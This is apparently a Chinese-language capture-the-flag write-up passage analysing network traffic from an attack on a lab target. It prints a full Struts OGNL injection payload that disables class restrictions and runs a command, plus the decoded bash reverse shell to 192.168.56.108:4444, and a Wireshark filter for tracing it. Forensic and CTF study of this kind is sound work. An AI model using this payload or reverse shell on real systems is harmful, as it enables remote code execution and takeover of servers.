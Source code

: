 进行url解码后获得如下：
```
id=%25%7b%28%23instancemanager%3d%23application%5b%22org.apache.tomcat.InstanceManager%22%5d%29.%28%23stack%3d%23attr%5b%22com.opensymphony.xwork2.util.ValueStack.ValueStack%22%5d%29.%28%23bean%3d%23instancemanager.newInstance%28%22org.apache.commons.collections.BeanMap%22%29%29.%28%23bean.setBean%28%23stack%29%29.%28%23context%3d%23bean.get%28%22context%22%29%29.%28%23bean.setBean%28%23context%29%29.%28%23macc%3d%23bean.get%28%22memberAccess%22%29%29.%28%23bean.setBean%28%23macc%29%29.%28%23emptyset%3d%23instancemanager.newInstance%28%22java.util.HashSet%22%29%29.%28%23bean.put%28%22excludedClasses%22%2c%23emptyset%29%29.%28%23bean.put%28%22excludedPackageNames%22%2c%23emptyset%29%29.%28%23execute%3d%23instancemanager.newInstance%28%22freemarker.template.utility.Execute%22%29%29.%28%23execute.exec%28%7b%22bash%20-c%20%7becho%2cYmFzaCAtYyAnMDwmMTA1LTtleGVjIDEwNTw%2bL2Rldi90Y3AvMTkyLjE2OC41Ni4xMDgvNDQ0NDtzaCA8JjEwNSA%2bJjEwNSAyPiYxMDUn%7d%7c%7bbase64%2c-d%7d%7cbash%22%7d%29%29%7d
```

我们对其进行base64编码后获得：

`bash -c '0<&105-;exec 105<>/dev/tcp/192.168.56.108/4444;sh <&105 105>&105 2>&105'`

* 可以看到这是一个典型的 Bash 反弹 Shell（Reverse Shell） 命令，用于建立与攻击者机器的远程连接。

使用过滤规则：`ip.src == 192.168.56.108 && tcp.port== 4444`查看其相关执行的指令：

![alt text](./image/1742799464566.png)

我们再次追踪相关TCP数据流，可以看到我们之前在反弹shell试图获取flag时尝试的指令。可以看到**显示出的指令与我们之前攻破靶标过程中的是一样的**。
